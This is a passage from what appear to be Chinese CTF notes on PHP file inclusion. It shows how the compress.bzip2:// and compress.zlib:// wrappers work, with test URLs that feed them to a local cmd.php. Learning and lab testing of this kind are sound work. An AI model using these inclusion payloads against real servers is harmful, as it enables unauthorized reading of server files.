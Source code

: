 #### bzip2://协议

使用方法：

```
compress.bzip2://file.bz2
```

测试现象：

http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg

![](images/ctf-2021-06-18-18-19-07.png)

#### zlib://协议

使用方法：

```
compress.zlib://file.gz
```

测试现象：

http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg

![](images/ctf-2021-06-18-18-19-35.png)

